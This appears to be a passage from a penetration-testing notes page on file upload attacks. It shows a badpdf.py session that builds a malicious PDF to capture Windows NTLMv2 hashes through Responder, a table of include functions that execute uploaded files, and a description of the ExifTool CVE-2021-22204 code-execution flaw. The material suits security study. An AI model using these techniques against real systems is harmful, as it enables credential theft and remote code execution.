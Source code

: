 ### PDFs

For Windows targets, we can create and upload a malicious PDF file and attempt to steal the user's NTMLv2 hash using [`badpdf.py`](https://github.com/deepzec/Bad-Pdf):

{% code overflow="wrap" %}
```bash
$ sudo python2 badpdf.py                                                                                                                                                                                                                   

Responder detected :/usr/sbin/responder
Please enter Bad-PDF host IP: 
10.10.14.2
Please enter output file name: 
malicious.pdf
Please enter the interface name to listen(Default eth0): 
tun0
[*] Starting Process.. [*]
Bad PDF malicious.pdf created
```
{% endcode %}

## RCE

If the vulnerable function has code `Execute` capabilities, then the code within the file we upload will get executed if we include it, **regardless of the file extension or type**. The file upload form does not need to be vulnerable, just allowing file uploads.

<table><thead><tr><th width="299">Function</th><th align="center">Read Content</th><th align="center">Execute</th><th align="center">Remote URL</th></tr></thead><tbody><tr><td><strong>PHP</strong></td><td align="center"></td><td align="center"></td><td align="center"></td></tr><tr><td><code>include()</code>/<code>include_once()</code></td><td align="center">✅</td><td align="center">✅</td><td align="center">✅</td></tr><tr><td><code>require()</code>/<code>require_once()</code></td><td align="center">✅</td><td align="center">✅</td><td align="center">❌</td></tr><tr><td><strong>NodeJS</strong></td><td align="center"></td><td align="center"></td><td align="center"></td></tr><tr><td><code>res.render()</code></td><td align="center">✅</td><td align="center">✅</td><td align="center">❌</td></tr><tr><td><strong>Java</strong></td><td align="center"></td><td align="center"></td><td align="center"></td></tr><tr><td><code>import</code></td><td align="center">✅</td><td align="center">✅</td><td align="center">✅</td></tr><tr><td><strong>.NET</strong></td><td align="center"></td><td align="center"></td><td align="center"></td></tr><tr><td><code>include</code></td><td align="center">✅</td><td align="center">✅</td><td align="center">✅</td></tr></tbody></table>

### Exiftool

&#x20;ExifTool `≤12.23` is vulnerable to a RCE vulnerability ([CVE-2021-22204](https://nvd.nist.gov/vuln/detail/cve-2021-22204)), caused by unsafe parsing of malicious metadata in **DjVu files disguised as JPEGs**. When ExifTool processes such a file—often automatically in image upload workflows—it can execute arbitrary code embedded in the metadata.

Many CMS platforms and web apps use ExifTool for image handling, making this vulnerability exploitable via unauthenticated file uploads if no proper validation exists. Exploited code runs with the privileges of the calling process, typically the web server. The injection process below is taken from INE's [ExifTool Command Injection (CVE-2021-22204)](https://app.gitbook.com/o/asuXdppEfmgK9Dr478w0/s/mjLkek16kB60c2WFd5lf/) blog post.&#x20;
